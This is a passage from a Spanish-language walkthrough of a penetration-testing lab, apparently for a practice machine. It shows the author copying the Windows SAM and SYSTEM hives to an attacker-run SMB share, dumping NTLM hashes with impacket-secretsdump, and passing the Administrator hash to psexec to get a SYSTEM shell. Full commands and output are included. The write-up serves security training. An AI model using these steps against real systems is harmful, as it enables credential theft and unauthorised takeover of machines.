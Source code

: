 Nos `creamos` un `servidor SMB` en nuestra máquina

```
# impacket-smbserver smbFolder $(pwd) -smb2support     
```

Nos `transferimos` los `archivos` a nuestra máquina 

```
C:\Windows\Temp\PostExploitation> copy sam \\10.10.16.23\smbFolder\sam
        1 file(s) copied.

C:\Windows\Temp\PostExploitation> copy system \\10.10.16.23\smbFolder\system
        1 file(s) copied.
```

El archivo `SAM (Security Account Manager)` es un archivo en `Windows` que `almacena` las `cuentas` de `usuario` y los `hashes` de sus `contraseñas`. Este archivo está ubicado en `C:\Windows\System32\config\SAM`. Está `encriptado` para `proteger` la `información` de las `contraseñas`. Para poder `descifrarlo`, se necesita una `clave maestra` que se encuentra en el archivo `SYSTEM`

El archivo `SYSTEM` contiene las `claves` de `encriptación` necesarias para `descifrar` los `hashes` almacenados en el archivo `SAM`. Este archivo se encuentra en `C:\Windows\System32\config\SYSTEM`. En específico, el archivo `SYSTEM` contiene el valor `BootKey` que se utiliza para `desencriptar` los `hashes` de las `contraseñas`

`Obtenemos` los hashes `NTLM` de los usuarios

```
# impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xa749692f1dc76b46d7141ef778aa6bef
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
[*] Cleaning up... 
```

Con este `hash` nos podemos `conectar` a la `máquina víctima` cuando queramos sin necesidad de proporcionar `contraseña`

```
# impacket-psexec WORKGROUP/Administrator@10.129.199.216 -hashes ':cdf51b162460b7d5bc898f493751a0cc'                                  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.199.216.....
[*] Found writable share ADMIN$
[*] Uploading file xlZCQCOm.exe
[*] Opening SVCManager on 10.129.199.216.....
[*] Creating service fGjC on 10.129.199.216.....
[*] Starting service fGjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
## Extras (Obtaining Credentials Stored In Memory)
